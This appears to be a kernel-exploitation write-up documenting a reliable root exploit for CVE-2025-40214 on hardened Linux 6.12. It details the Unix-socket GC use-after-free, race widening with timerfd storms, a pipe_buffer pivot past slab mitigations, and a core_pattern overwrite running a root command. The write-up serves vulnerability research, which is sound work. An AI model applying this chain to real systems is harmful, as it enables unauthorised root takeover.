

# CVE-2025-40214

Exploit documentation for `CVE-2025-40214` against `mitigation-v4-6.12`.

As stated in `vulnerability.md`, the bug behind `CVE-2025-40214` causes
a UAF on `struct sk_buff` (skb) and `struct scm_fp_list` carrying files inside the skb by making the Unix Sockets GC incorrectly
collect sockets that are still reachable from userspace.

## Overview

The exploit proceeds in the following stages:

0. Prerequisites: bypass KASLR via a prefetch side-channel, then locate a
   kernel vtable (`ql_ps.end_io`) that already points to a decrement gadget.
1. Preparation: build a GC cycle with a controlled `scc_index` spray to get the UAF on skb and `struct scm_fp_list` inside it.
2. Race `scm_fp_dup()` against `unix_destruct_scm()` to convert the `struct scm_fp_list` UAF into a UAF on `struct file`.
3. Pivot the `struct file` UAF into a UAF on `pipe_inode_info->bufs` (pipe buffers),
   force the allocation outside the slab to bypass slab mitigations, then overwrite
   `core_pattern` for privilege escalation.

`scc_index` spray -> `struct scm_fp_list` UAF -> `struct file` UAF (`/dev/null` reclaim) -> pipe pivot (same `filp` cache) -> `pipe->bufs` grown to Order-2 (allocated from buddy, bypass mitigations) -> pipe buffer UAF (Order-2 page socket write reclaim) -> RIP control (`ql_ps.end_io` -> decrement gadget) -> `core_pattern` mode 0644->0643 -> root

## Mitigation Notes

The exploit targets `mitigation-v4-6.12`, which has the following hardening options enabled:

- `CONFIG_SLAB_VIRTUAL` — virtualizes slab addresses, preventing cross-cache attacks.
- `CONFIG_RANDOM_KMALLOC_CACHES` — randomizes which `kmalloc` cache a given call site uses.

The exploit avoids cross-cache attacks and slab allocations entirely. The key mitigation bypass is in [Step 3.2](#step-32-grow-pipe_buffers-outside-the-slab): we grow the `pipe->bufs` array to 256 elements (10,240 bytes), which is greater than `KMALLOC_MAX_CACHE_SIZE` (8,192 bytes). This forces the allocation through `kmalloc_large` -> page allocator, bypassing both `SLAB_VIRTUAL` and `CONFIG_RANDOM_KMALLOC_CACHES`.

The struct file UAF (Step 2) does not require cross-cache because the `/dev/null` -> pipe conversion (Step 3.1) replaces the freed file with a same-type `struct file` allocation. After `kfree(pipe->bufs)` the Order-2 page returns to PCP, and the next Order-2 allocation (socket write buffer) reclaims it with attacker-controlled data.

Relevant object caches:
- `unix_vertex` — allocated via `kmalloc(sizeof(*vertex), GFP_KERNEL)` (random kmalloc cache). The exploit avoids fighting this by receiving sockets from the cycle itself, so the freed vertices retain the sprayed `scc_index`.
- `struct file` — allocated from the `filp` slab cache. The `/dev/null` -> pipe conversion reuses the same cache.
- `struct sk_buff` — allocated from `skbuff_head_cache`. The exploit does not reclaim skb objects directly; instead it pivots the `scm_fp_list` UAF that lives in the freed skb into a `struct file` UAF.
- `scm_fp_list` — allocated via `kmalloc(sizeof(struct scm_fp_list), GFP_KERNEL_ACCOUNT)` into `kmalloc-cg-4096`. Stores up to 253 file pointers per skb. The exploit sends 251 files to avoid the freelist pointer at offset 2048 corrupting the 252nd pointer.
- `pipe->bufs` — allocated via `kcalloc()` into `kmalloc_large` (page allocator) after growing to 256 elements.

KASLR is bypassed via the [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html) prefetch side-channel.

### Environmental Requirements

- **`RLIMIT_NOFILE` = 2000**: Not strictly required, but with the increased limit the exploit works faster because file descriptors are used to widen race windows via many timerfds, many dummy sockets in the Unix GC socket cycle graph, and we can spray many files without worrying about the limits.
- **`pin_to_cpu(0)` / `pin_to_cpu(1)`**: The GC thread and the recv thread are pinned to separate CPUs. This is required for the race:
   1. The timerfd irq must widen a race window on the correct CPU.
   2. The threads must race and not be scheduled sequentially.
   3. The CPU caches must be divided as this widens the second race window massively.

### Step 0: Prerequisites

These steps are skipped in `--vuln-trigger` mode (vulnerability trigger only, no privilege escalation).

#### KASLR Bypass

We use a `prefetch` timing side-channel to bypass KASLR, based on [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html) (CVE-2022-4543). The attack measures `prefetch` instruction timing across candidate kernel base addresses (from `0xffffffff81000000` to `0xffffffffc1000000` with a `0x200000` step). The implementation uses the `leak_kaslr_base()` function from [libxdk](https://github.com/google/kernel-research/commit/62adf039e79c26e0288e996858bcd50c2ce3a3e7).

#### Decrement gadget via kernel vtable (`ql_ps.end_io`)

After the KASLR leak, we locate a kernel vtable field that already contains a pointer to a suitable decrement gadget. The [DirtyMode](novel-techniques.md#dirtymode-privilege-escalation-with-weak-write-primitives) technique provides access to many gadgets across the kernel image; among them, `ql_end_io` from `drivers/md/dm-ps-queue-length.c` is a clean decrement:

```asm
ql_end_io:
  callq  __fentry__
  movq   0x8(%rsi), %rax
  lock   decl 0x1c(%rax)
  xorl   %eax, %eax
  jmp    __x86_return_thunk
```

Crucially, `ql_end_io` is referenced by the static `path_selector_type ql_ps` structure in the kernel's `.data` section as `ql_ps.end_io`. The address `&ql_ps.end_io` is computable from the KASLR base alone. When `pipe_buffer.ops` is set to this address, the kernel reads `ops->confirm` (offset 0x00), which yields the `ql_end_io` function pointer — the decrement gadget. No fake vtable spray is needed.

```c
static struct path_selector_type ql_ps = {
	// ...
	.start_io	= ql_start_io, // increment gadget
	.end_io		= ql_end_io, // decrement gadget
};
```

This approach replaces the earlier [NPerm](../../CVE-2025-38477_cos/docs/novel-techniques.md#leave-payload-next-to-kernel-resource-nperm) technique that sprayed nearly all physical memory with a fake vtable. NPerm was the sole source of instability (~88-92% reliability) because the sprayed physical page could be reclaimed by the kernel between the spray and the RIP control trigger. Using a pre-existing kernel vtable eliminates this failure mode entirely.

### Step 1: Preparation

Visualization of this step:

https://github.com/user-attachments/assets/877d016b-311e-4530-8972-1f8c7076dabe

The internal unix GC graph is built by the following rules:

1. Each vertex is a socket that is inflight (sent to another socket via SCM_RIGHTS)
2. Each edge goes from the sent socket (predecessor) to the receiver socket (successor)
3. Each vertex has the index of a SCC that is assigned by Tarjan's algorithm

The vulnerable structure:

```c
struct unix_vertex {
	struct list_head edges;
	struct list_head entry;
	struct list_head scc_entry;
	unsigned long out_degree;
	unsigned long index;
	unsigned long scc_index; // is uninitialized
};
```

In the exploit we have these key sockets:

1. `victim_socket` - it is a socket whose receive queue will be purged by GC because of the vulnerability. We send `eventfd` files in this socket so we can peek freed files in [Step 2](#step-2-race-between-scm_fp_dup-and-unix_destruct_scm). We also send dummy eventfd files via a separate socket (`slab_pin_sv`) before and after every eventfd. These "guard" files share the same slab page as the `target_file` and keep the page (with the file and the skb) alive when `unix_destruct_scm` drops the `target_file` refcount to zero, preventing the slab from returning the page to the page allocator.
2. `receiver_socket` - it is a socket that will help us to get the `victim_socket` back to the user space in the form of a file descriptor. It is needed because the GC checks not only `scc_index` but also that there are no references to this file from the user space at the time of the `unix_vertex_dead()` check.
3. `tail_socket` - this socket is needed to create the `receiver_vertex` when we send the `receiver_socket` to this socket. This vertex will get the sprayed `scc_index` while it is actually in another SCC.

#### Step 1.1: Initial graph setup

At this step we are building a long GC cycle. We add spray vertices to this cycle so that when we `recv()` them, their freed `unix_vertex` structures still contain the cycle's `scc_index`.

We need a long cycle here to increase the GC window from the `unix_vertex_dead(victim_vertex)` to the `skb_queue_splice_init(victim_socket.receive_queue)` so we can access the `victim` receive queue in the future. We also expand this window using a `timerfd` interrupt storm.

The cycle size is set by `NUM_DUMMY` in the exploit.

```c
#define NUM_DUMMY          200
```

Current internal state of the GC:

```js
unix_graph_grouped = false
unix_graph_maybe_cyclic = true
vertices.scc_index = 0 // because CONFIG_SLAB_VIRTUAL always zeroes pages on alloc via gfp_flags |= __GFP_ZERO;
```

#### Step 1.2: Tarjan's slow path sets `scc_index` = 2

Now we can trigger the unix GC. The `unix_graph_grouped` is false, so the GC will run Tarjan's algorithm on the graph. It will assign `scc_index` to each vertex. Since we have 1 monolithic cycle here, all vertices get the `scc_index` = 2 (`UNIX_VERTEX_INDEX_START`).

```c
enum unix_vertex_index {
	UNIX_VERTEX_INDEX_MARK1,
	UNIX_VERTEX_INDEX_MARK2,
	UNIX_VERTEX_INDEX_START,
};
```

#### Step 1.3: Free & spray

We need to spray memory with `scc_index` from our cycle, so subsequent vertex allocations get the same index by default. The best way to spray is to `recv()` sockets from the cycle. Since we are on the mitigation instance and the `unix_vertex` allocates in the kmalloc cache, this is the easiest way to reliably spray these structures without fighting against `CONFIG_RANDOM_KMALLOC_CACHES`.

```c
kmalloc(sizeof(*vertex), GFP_KERNEL);
```

`recv()` -> `unix_destroy_fpl()` -> `kfree(spray_vertex)`

#### Step 1.4: Trigger vulnerability

Next, we send the victim socket to the receiver socket so we can get it back later. We also send the receiver socket to the tail socket so the `receiver_vertex` is not NULL.

> **Note:** the `receiver_vertex` is created only after it becomes inflight, therefore we must send it to the `tail_socket`.

The `unix_vertex_dead()` checks two things for each vertex in a SCC found by Tarjan's algorithm:

```c
list_for_each_entry(edge, &vertex->edges, vertex_entry) {
		struct unix_vertex *next_vertex = unix_edge_successor(edge);

		/* The vertex's fd can be received by a non-inflight socket. */
		if (!next_vertex)
			return false;

		/* The vertex's fd can be received by an inflight socket in
		 * another SCC.
		 */
		if (next_vertex->scc_index != vertex->scc_index)
			return false;
}
```

The second check is bypassed by the vulnerability because the new `receiver_vertex` gets the sprayed `scc_index`.

The relevant state at the end of this step:

```js
unix_graph_grouped = true
unix_graph_maybe_cyclic = true
victim_vertex.scc_index = receiver_vertex.scc_index = 2 // here the GC invariant is broken
```

The `unix_graph_grouped` is updated in `unix_update_graph(successor_vertex)` when a socket is sent to another inflight socket. Since all sockets to which we sent other sockets are not-inflight at the sending time, this flag is still true.

```c
static void unix_update_graph(struct unix_vertex *vertex)
{
	/* If the receiver socket is not inflight, no cyclic
	 * reference could be formed.
	 */
	if (!vertex)
		return;

	unix_graph_maybe_cyclic = true;
	unix_graph_grouped = false;
}
```

The next round of GC will go through the fast path (`unix_walk_scc_fast`) since `unix_graph_grouped` is true from the preparation step. The `unix_vertex_dead(victim_vertex)` call will also return true since `victim_vertex.scc_index` == `receiver_vertex.scc_index` and all victim's references are inflight and no references exist in the user space.

This results in the UAF on `struct scm_fp_list` (lives in `skb->fp`) because the GC purges the `receive_queue` of the `victim_socket` while we can receive the `victim_socket` from the `receiver_socket` and access the `struct scm_fp_list` that was freed.

### Step 2: Race between `scm_fp_dup()` and `unix_destruct_scm()`

The GC will purge the `victim_socket`'s receive queue, freeing the skbs that carry our `eventfd` files (the `target_file`). To exploit this on the mitigation instance we convert the skb UAF into a UAF on `struct file` — this avoids fighting slab mitigations for the skb object itself.

The first race window lies between `unix_vertex_dead(victim_vertex)` (checks the vertex as a garbage candidate, must not have any user space references here) and `skb_queue_splice_init(victim_socket.receive_queue)` (destroys the receive queue so we must `recv(victim_socket)` before this).

We need to get our victim socket back via a file descriptor. This must be performed inside the GC window from above. For this we have the `receiver_socket` that contains our `victim_socket` in its receive queue. Since the general `recv()` calls `scm_stat_del()` which locks with `unix_gc_lock` we must use MSG_PEEK instead.

```c
static void scm_stat_del(struct sock *sk, struct sk_buff *skb)
{
	struct scm_fp_list *fp = UNIXCB(skb).fp;
	struct unix_sock *u = unix_sk(sk);

	if (unlikely(fp && fp->count)) {
		atomic_sub(fp->count, &u->scm_stat.nr_fds);
		unix_del_edges(fp);
	}
}

void unix_del_edges(struct scm_fp_list *fpl)
{
	struct unix_sock *receiver;
	int i = 0;

	spin_lock(&unix_gc_lock); // this will force the wait until the GC finishes and destroys our race
	// ...
}
```

For this window we have the `DEAD_TO_SPLICE_START_NS` parameter in the exploit. This parameter needs to be adjusted so the `recv(receiver_socket)` starts inside the window. It also regulates the start of the timerfd interrupt storm. With this interrupt storm we expand the GC race window from thousands of nanoseconds to around 4,000 (`TIMER_STEP_NS`) x 100 (`NUM_TRIGGER_TIMERS`) = 400 microseconds.

In this 400 microsecond window we have to finish `recv(receiver_socket)` and enter `recv(victim_socket)` (before the socket queue is spliced). We use MSG_PEEK for the victim socket as well because the race window is massively larger in this case.

The challenge is that `skb.fp` is saved and then set to NULL before `fput()` is called for each file inside the skb. When the GC purges the receive queue, each skb is freed via its destructor `unix_destruct_scm()`:

```c
static void unix_destruct_scm(struct sk_buff *skb)
{
	struct scm_cookie scm;

	memset(&scm, 0, sizeof(scm));
	scm.pid  = UNIXCB(skb).pid;
	if (UNIXCB(skb).fp)
		unix_detach_fds(&scm, skb);

	scm_destroy(&scm); // calls __scm_destroy
	sock_wfree(skb);
}

static void unix_detach_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = UNIXCB(skb).fp;
	UNIXCB(skb).fp = NULL; // skb.fp is NULL from here

	unix_destroy_fpl(scm->fp);
}

void __scm_destroy(struct scm_cookie *scm)
{
	struct scm_fp_list *fpl = scm->fp;
	int i;

	if (fpl) {
		scm->fp = NULL;
		for (i=fpl->count-1; i>=0; i--)
			fput(fpl->fp[i]);
		free_uid(fpl->user);
		kfree(fpl);
	}
}
```

In the case of `recv(victim_socket)` without MSG_PEEK we have to call `unix_detach_fds()` too and the race window is only a few assembler instructions wide. But when we use MSG_PEEK it goes through `unix_peek_fds()`.

The pointer is cached in `unix_peek_fds()`. Therefore we have the window between the `scm_fp_dup` function start and the `get_file()` on our `target_file` inside the `scm_fp_dup()`.

Therefore our race window is from the moment `skb.fp` is saved until `f_count` is incremented via `get_file()` in `scm_fp_dup()`.

```c
static void unix_peek_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = scm_fp_dup(UNIXCB(skb).fp);
}
```

The second race window is in the code below. There is a `kmemdup()` call and the loop with `get_file(fp[i])`, so we can increase the window with many files because every `get_file()` can hit a cache miss. We can send up to 253 files at once. Additionally we increase the race window using a `timerfd` interrupt storm.

The exploit sends 251 files per skb (`NUM_EVENTFDS_BATCH`), not 253. The list of file pointers is stored in `struct scm_fp_list` which is allocated in `kmalloc-cg-4096`.

```
#define SCM_MAX_FD	253

struct scm_fp_list {
	short			count;
	short			count_unix;
	short			max;
#ifdef CONFIG_UNIX
	bool			inflight;
	bool			dead;
	struct list_head	vertices;
	struct unix_edge	*edges;
#endif
	struct user_struct	*user;
	struct file		*fp[SCM_MAX_FD];
};

fpl = kmalloc(sizeof(struct scm_fp_list), GFP_KERNEL_ACCOUNT);
```

We have a 40-byte header here followed by the list of file pointers. This structure is part of the skb freed by the GC. When the GC frees this structure, the allocator will set the freelist pointer at an offset of 2048 bytes, which holds the pointer to the 252nd file. It is much easier to just send 251 files instead of spraying this structure.

The nice part on the mitigation instance with `CONFIG_RANDOM_KMALLOC_CACHES` is the very low probability of reclaiming from other threads. Therefore the first 251 file pointers in the freed structure remain intact.

```c
struct scm_fp_list *scm_fp_dup(struct scm_fp_list *fpl)
{ // Race Window start
  struct scm_fp_list *new_fpl;
  int i;

  if (!fpl)
    return NULL;

  new_fpl = kmemdup(fpl, offsetof(struct scm_fp_list, fp[fpl->count]),
              GFP_KERNEL_ACCOUNT);
  if (new_fpl) {
     for (i = 0; i < fpl->count; i++)
       get_file(fpl->fp[i]); // Race Window end
  }
  return new_fpl;
}
```

Note that in the `get_file` loop we use the original `fpl`, not the copy made by `kmemdup`.

We close the last file - it will be our `victim_file`. It is the last because the race window ends at the `victim_file` and we would like to make it as long as possible.

In this race window the unix GC must finish `unix_destruct_scm()`, resulting in `victim_file.f_count` dropping to zero via `fput()` in `__scm_destroy()` and a `____fput` task being queued for our `victim_file`. In `scm_fp_dup` the `get_file(target_file)` increments `target_file`'s refcount from 0, but `____fput` is already queued and will free the memory containing the file. Assuming that serial output for the kernel messages is enabled, the warning in `get_file()` will stop the execution for approximately 100ms:

```c
static inline struct file *get_file(struct file *f)
{
	long prior = atomic_long_fetch_inc_relaxed(&f->f_count);
	WARN_ONCE(!prior, "struct file::f_count incremented from zero; use-after-free condition present!\n");
	return f;
}
```

In this ~100ms window we can wait for the queued `____fput` to free the file slot and spray new files to reclaim this slot on another CPU. We open 300 (`NUM_DEVNULL`) `/dev/null` files and one of these allocations lands on the `target_file` memory. We must reclaim it because `recv(MSG_PEEK)` will run security hooks in `receive_fd()` and if we don't reclaim the memory with a valid `struct file` then the kernel will dereference the `f_security` field on `struct file` which is nullified while freeing:

```c
void security_file_free(struct file *file)
{
	void *blob;

	call_void_hook(file_free_security, file);

	blob = file->f_security;
	if (blob) {
		file->f_security = NULL;
		kmem_cache_free(lsm_file_cache, blob);
	}
}

int receive_fd(struct file *file, int __user *ufd, unsigned int o_flags)
{
	int new_fd;
	int error;

	error = security_file_receive(file);
	if (error)
		return error;

	// ...

	fd_install(new_fd, get_file(file));

	// ...
}
```

This race window is expanded by the timerfd storm with the fixed delay `FP_DUP_START_NS` = 1,100 nanoseconds. It was picked empirically and can vary depending on the system setup, system load, NUMA topology, but for the mitigation instance this value works well without adjustment.

For reliable timing we give `RECV_FD_BUDGET_NS` for the first `recv(receiver_socket)` to complete. With this time buffer we can set up the timerfd storm reliably with high timing accuracy.

#### Expanding race windows with timerfd interrupt storm

Both race windows are expanded using a timerfd interrupt storm. We pick a start point in the future and set up multiple `timerfd` timers, each 4us (`TIMER_STEP_NS`) apart:

```c
static void setup_timerfd_storm(int count, struct timespec *base, long offset_ns) {
    for (int i = 0; i < count; i++) {
        int tfd = timerfd_create(CLOCK_MONOTONIC, TFD_NONBLOCK);
        if (tfd < 0) exit(1);
        struct timespec timer_ts = *base;
        timespec_add_ns(&timer_ts, offset_ns + (long)i * TIMER_STEP_NS);
        setup_timerfd_abs(tfd, &timer_ts);
    }
}
```

The 4us step was picked empirically. By the time the kernel finishes handling one timer interrupt, the next one is already pending. This keeps the CPU busy in interrupt context for the entire duration of the storm. If the step is too small, timers coalesce into one interrupt batch and the storm ends early. If too large, there are gaps where the kernel code resumes.

Setting all timers to the same time does not work well either. The kernel handles them all in a single interrupt batch and returns quickly, so the stall is very short. Spreading them out produces a much longer and more reliable stall.

For Race Window 1: 100 (`NUM_TRIGGER_TIMERS`) timers * 4us = ~400us stall on CPU 0. This expands the window between `unix_vertex_dead()` and `skb_queue_splice_init()`.

For Race Window 2: 250 (`NUM_RECV_TIMERS`) timers * 4us = ~1000us stall on CPU 1. This expands the window between pointer load in `scm_fp_dup()` and `get_file()`. After `get_file()` increments `f_count` from 0, the `WARN_ONCE` fires and dmesg I/O blocks CPU 1 for another ~100ms. This extra delay gives the GC thread enough time to finish `unix_destruct_scm()`, return to user space, wait for the RCU grace period (20ms), and reclaim the freed file memory with the `/dev/null` spray.

The key difference of this method compared to the classic single timerfd with many epoll listeners is that we don't intend to stop execution at a single instruction. Instead we just slow it down, widening the window that is already reasonably wide.

This is especially beneficial for the second window because even if our storm starts early, the execution still advances slowly. For example, if our timing is off and `scm_fp_dup` starts not at 1,100ns but at 2,500ns, a single timerfd with many listeners would fail entirely.

But with many independent timers, the execution progresses slowly through the code toward our target window. Since we only need to be anywhere inside the second window at the time the GC purges the receive queues, we are tolerant of timing drift and only need to slow down execution.

Overall race scheme:



### Step 3: Pivoting the UAF on struct file to privilege escalation

After we have 2 file descriptors pointing to the same struct file with `f_count` = 1, we can convert this file to any other. In this exploit we convert our `/dev/null` files from the files spray to a read end of a pipe.

#### Step 3.1: Convert `/dev/null` to pipe

We close all `/dev/null` fds so their `struct file` objects are freed back to the filp slab. After the RCU grace period we spray pipes. Pipe files allocate from the same slab cache, so one of them reclaims the `victim_file` address. We match via `fstat` inode comparison and retry if the matched fd is a write end (we need the read end). As a result, we get 2 file descriptors pointing to the same pipe read end with `f_count` = 1.

#### Step 3.2: Grow `pipe_buffers` outside the slab

Next we increase the `pipe_buffers` array size via `fcntl()`.

```c
int target_pipe_size = 250 * 4096;
fcntl(pipes[found_pipe_idx][1], F_SETPIPE_SZ, target_pipe_size);
```

The `pipe_buffers` structure consists of an array of `pipe_buffer` structures. Each `pipe_buffer` is 40 bytes in size and we intend to use `kmalloc_large` for the allocation of this array. Therefore we increase the array to 250 elements and the array will be allocated for 256 elements since it is the nearest power of 2. In this case the `pipe_buffers` will be 256 * 40 = 10,240 bytes in size and since this is more than KMALLOC_MAX_CACHE_SIZE (8,192 bytes) this array will be allocated with `kmalloc_large` that does not use SLAB so we bypass both `SLAB_VIRTUAL` and `CONFIG_RANDOM_KMALLOC_CACHES`.

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

```c
pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
```

```c
#define KMALLOC_SHIFT_HIGH	(PAGE_SHIFT + 1) // 12 + 1 = 13
// ...
#define KMALLOC_MAX_CACHE_SIZE	(1UL << KMALLOC_SHIFT_HIGH) // 8,192 bytes
```

```c
void *__do_kmalloc_node(size_t size, kmem_buckets *b, gfp_t flags, int node,
			unsigned long caller)
{
	struct kmem_cache *s;
	void *ret;

	if (unlikely(size > KMALLOC_MAX_CACHE_SIZE)) { // size is 10,240 bytes and this is true
		ret = __kmalloc_large_node_noprof(size, flags, node);
		trace_kmalloc(caller, ret, size,
				  PAGE_SIZE << get_order(size), flags, node);
		return ret;
	}
	// ...
}
```

#### Step 3.3: Free `pipe->bufs` and spray fake `pipe_buffer` structures

After we increased the `pipe_buffers` size we can close one of the file descriptors pointing to the `victim_file`. After we have returned from the `close()` syscall the underlying `pipe->bufs` memory is already freed (`kfree(pipe->bufs)` is called directly) and we can start the spray. The other fd still references the pipe, so `pipe->bufs` is still pointing to the freed memory.

After `kfree(pipe->bufs)` is called the Order-2 page goes straight to the PCP. Therefore the next Order-2 allocation will pick this page. For the spray we can use a write to a socket because it can use such big allocations with attacker-controlled data.

In the spray we create fake `pipe_buffer` structures.

```c
uint64_t ql_ps_end_io = g_kernel_base + g_target->GetSymbolOffset("ql_ps.end_io");
uint64_t dec_target = g_kernel_base + g_target->GetSymbolOffset("core_pattern_mode") - DEC_GADGET_DEREF_OFFS;
    
// pipe_buffer.ops -> &ql_ps.end_io (kernel vtable)
// ops->confirm (offset 0x00) reads the ql_end_io function pointer = decrement gadget
*(uint64_t*)(fake_pipe_buf + pipe_buffer_ops_off) = ql_ps_end_io;
// ql_end_io: movq 0x8(%rsi), %rax; lock decl 0x1c(%rax)
// -> decrements core_pattern_mode from 0644 to 0643
*(uint64_t*)(fake_pipe_buf + DEC_GADGET_READ_OFFS) = dec_target;

// Reclaim the freed Order-2 page with attacker-controlled data via socket write buffer.
write(spray_fd, fake_pipe_buf, PIPE_BUF_DATA_SIZE);
free(fake_pipe_buf);
```

The `pipe_buffer.ops` pointer is set to `&ql_ps.end_io` — the address of the `end_io` field inside the static `path_selector_type ql_ps` structure. This address is in the kernel's `.data` section and is computable from the KASLR base (see [Step 0](#decrement-gadget-via-kernel-vtable-ql_psend_io)). When the kernel reads `ops->confirm` (offset 0x00), it gets the `ql_end_io` function pointer — the decrement gadget: `movq 0x8(%rsi), %rax; lock decl 0x1c(%rax)`.

We intend to decrement the `sysctl.core_pattern.mode` field which is 0644 by default. After the decrement it becomes 0643 and the file is world-writable. We calculate the `dec_target` accordingly.

#### Step 3.4: RIP control via `pipe_buf_confirm` gadget

After the spray we unshare files. This ensures that `fdget()` will use the light version without `atomic_inc_not_zero()` that stall in a forever loop, although there can be other workarounds.

Next, we shut down the splice target socket's write end to ensure early exit from `unix_stream_sendmsg` and call splice on it.

Internally `splice_to_socket()` waits for the pipe to be readable, then calls `pipe->ops->confirm()` on our controlled structure with `rsi` pointing to our `pipe->bufs` spray. The `ql_end_io` gadget reads `dec_target` from `pipe_buffer + 0x8` into `rax`, decrements `rax + 0x1c` (which is `core_pattern.mode`), zeroes `eax`, and returns via `__x86_return_thunk`.

Since the gadget returns 0, execution continues into `unix_stream_sendmsg`, which returns `-EPIPE` because the socket was shut down. The exploit ignores `SIGPIPE` to prevent the signal from killing the process.

```c
ssize_t splice_to_socket(struct pipe_inode_info *pipe, struct file *out,
			 loff_t *ppos, size_t len, unsigned int flags)
{
	// ...

	while (len > 0) {
		// ...

		while (pipe_empty(pipe->head, pipe->tail)) {
			// ...

			pipe_wait_readable(pipe);
		}

		// ...

		while (!pipe_empty(head, tail)) {
			// ...

			ret = pipe_buf_confirm(pipe, buf);
			if (unlikely(ret)) { // gadget zeroes rax so we don't break
				if (ret == -ENODATA)
					ret = 0;
				break;
			}

			// ...
		}

		// ...

		ret = sock_sendmsg(sock, &msg);
		if (ret <= 0) // we forced early exit so ret = -EPIPE
			break;
		// ...
	}

out:
	pipe_unlock(pipe);
	if (need_wakeup)
		wakeup_pipe_writers(pipe);
	return spliced ?: ret;
}


static int unix_stream_sendmsg(struct socket *sock, struct msghdr *msg,
			       size_t len)
{
	// ...

	// we must force early exit to not deal with corrupted structures
	if (READ_ONCE(sk->sk_shutdown) & SEND_SHUTDOWN)
		goto pipe_err;

	// ...
}
```

We have closed the read end of the pipe while holding the UAF file descriptor pointing to the `struct file` with `f_count == 0`. The cleanup is handled by `corrupted_fd_cleanup(fd)`. This function reclaims the freed slot so we have 2 fds to a file with `f_count == 1`, then mmaps this file (`f_count == 2`), then closes both fds (`f_count` goes to zero safely) and unmaps the mapping, which gives us `f_count == -1` but is safe.

#### Step 3.5: Privilege escalation via `core_pattern`

After the successful splice, `sysctl.core_pattern.mode` has been decremented from 0644 to 0643, making it world-writable. We verify this by checking the permissions of `/proc/sys/kernel/core_pattern`. We then write the exploit pattern `|/bin/dd if=/flag of=/dev/kmsg` to `core_pattern`. Finally, we crash a child process and the kernel executes our pattern as root, piping the flag to the kernel log.

```c
{
	.procname	= "core_pattern",
	.data		= core_pattern,
	.maxlen		= CORENAME_MAX_SIZE,
	// in .data section, so with kaslr leak it is easy
	// to make it writable by many weak write primitives
	.mode		= 0644,
	.proc_handler	= proc_dostring_coredump,
}
```

## Reliability

Overall reliability: **100%**, measured across 350 runs on the `mitigation-v4-6.12` instance (350 wins, 0 crashes). The race itself (Step 2) is completely safe — each attempt runs in a `fork()`'d child, so a failed attempt is simply discarded with `DEAD_TO_SPLICE_START_NS` dynamically adjusted across retries to find the correct timing offset.

### Note on previous NPerm-based approach

An earlier version of this exploit used the [NPerm](../../CVE-2025-38477_cos/docs/novel-techniques.md#leave-payload-next-to-kernel-resource-nperm) technique to spray physical pages with a fake `pipe_buf_operations` vtable. This achieved ~88-92% reliability (176-184 wins out of 200 runs). All crashes were caused by NPerm spray degradation: between the spray and the RIP control trigger, the kernel could reclaim the physical page containing the fake vtable, leading to GPFs or page faults. Switching to a pre-existing kernel vtable (`ql_ps.end_io`) eliminated this failure mode entirely, raising reliability to 100%.

#### NPerm crash distribution (24 crashes out of 200 runs)

| Crash type | Count | % of crashes | Root cause |
|---|---|---|---|
| `splice_to_socket` GPF, `RAX=0xcccccccccccccccc` | 9 | 37.5% | NPerm page not reclaimed: `pipe_buf_operations.confirm` reads uninitialized (poisoned) memory |
| `skb_splice_from_iter` stack segment, `RAX=0x747` | 13 | 54.2% | NPerm page zeroed: the `.init` physical page was reclaimed and cleared, so `ops->confirm = NULL` and `pipe_buf_confirm()` returns 0 without calling the gadget. Execution continues into `splice_to_socket` -> `skb_splice_from_iter`, which dereferences the fake `pipe_buffer` fields (page, offset, len) filled with `'G'` (0x47) canary from the Order-2 page spray |
| Page fault on unmapped userspace address | 2 | 8.3% | NPerm page overwritten: the `.init` physical page was reclaimed and filled with unrelated kernel data, so `ops->confirm` points to an unmapped address |
